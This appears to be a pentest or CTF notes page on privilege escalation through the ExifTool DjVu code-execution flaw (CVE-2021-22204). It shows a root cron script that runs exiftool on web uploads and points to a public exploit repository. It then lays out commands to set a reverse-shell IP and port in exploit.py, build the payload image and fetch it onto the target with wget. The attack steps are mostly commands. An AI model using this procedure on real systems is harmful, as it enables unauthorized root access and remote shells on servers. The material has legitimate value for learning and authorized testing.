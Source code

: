 ```yaml
---
description: Exiftool 7.44< <12.24 Priv Esc
---
```


# Exiftool

[https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

CVE-2021-22204 can be triggered with a perfectly valid image (jpg, tiff, mp4 and many more) leading to arbitrary code execution!

Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image.

```
cat /etc/crontab
* *     * * *   root    bash /opt/image-exif.sh

www-data@test:/tmp$ cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/test/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

&#x20;   **exiftool **"$IMAGES/$filename" >> $LOGFILE&#x20;

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

```
$ sudo apt install djvulibre-bin exiftool
(Change the IP and Port in the exploit.py file for reverse shell.)

$ git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
$ cd CVE-2021-22204-exiftool
$ python3 exploit.py

wget http://192.168.1.1/image.jpg
```
